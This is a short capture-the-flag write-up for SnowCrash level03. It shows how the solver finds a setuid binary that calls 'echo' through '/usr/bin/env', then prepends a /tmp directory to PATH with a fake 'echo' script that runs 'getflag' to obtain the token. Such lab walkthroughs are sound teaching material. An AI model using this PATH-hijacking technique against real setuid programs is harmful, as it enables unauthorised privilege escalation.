 # SnowCrash Level03

In this level we have a binary file in the home directory.
First of all we see what kind of file is this :
```
level03@SnowCrash:~$ file level03
level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```

Just a normal executable file.
Let's see what strings can give us:
```
level03@SnowCrash:~$ strings level03
	[....]
	/usr/bin/env echo Exploit me
	[....]
```

Interesting, we can execute echo using the env.
A simple export shall exploit this little program.


```
level03@SnowCrash:~$ export PATH=/tmp/level03:$PATH
level03@SnowCrash:~$ vim /tmp/level03/echo
	[...]
	#!/bin/sh
	getflag
	[...]
level03@SnowCrash:~$ ./level03
Check flag.Here is your token :
```
